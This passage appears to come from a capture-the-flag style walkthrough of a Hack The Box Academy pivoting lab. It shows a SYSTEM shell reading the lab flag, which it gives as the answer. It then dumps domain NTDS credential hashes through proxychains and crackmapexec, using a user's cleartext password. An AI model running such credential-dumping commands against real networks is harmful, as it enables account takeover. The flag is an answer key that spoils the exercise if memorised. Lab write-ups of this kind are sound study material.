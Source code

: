 ​

C:\Windows\system32> whoami

nt authority\system

​

C:\Windows\system32> dir C:\

Volume in drive C has no label.

Volume Serial Number is DA7F-3F25

​

Directory of C:\

​

05/18/2022 12:33 PM 20 Flag.txt.txt

09/14/2018 11:12 PM <DIR> PerfLogs

12/14/2020 06:43 PM <DIR> Program Files

09/14/2018 11:21 PM <DIR> Program Files (x86)

05/03/2022 09:06 AM <DIR> Users

03/05/2023 05:04 PM <DIR> Windows

1 File(s) 20 bytes

5 Dir(s) 33,673,859,072 bytes free

​

C:\Windows\system32> type C:\Flag.txt.txt

3nd-0xf-Th3-R@inbow!

**Answer:** `**3nd-0xf-Th3-R@inbow!**`

#### 

**Extra:**[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/pivoting-tunneling-and-port-forwarding/labs-skills-assessment#extra)

┌──(kali㉿kali)-[~/Transfer]

└─$ proxychains crackmapexec smb 172.16.10.5 -u vfrank -p 'Imply wet Unmasked!' --ntds

<SNIP>

SMB 172.16.10.5 445 ACADEMY-PIVOT-D [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-PIVOT-D) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)

SMB 172.16.10.5 445 ACADEMY-PIVOT-D [+] INLANEFREIGHT.LOCAL\vfrank:Imply wet Unmasked! (Pwn3d!)

SMB 172.16.10.5 445 ACADEMY-PIVOT-D [+] Dumping the NTDS, this could take a while so go grab a redbull...

SMB 172.16.10.5 445 ACADEMY-PIVOT-D Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::

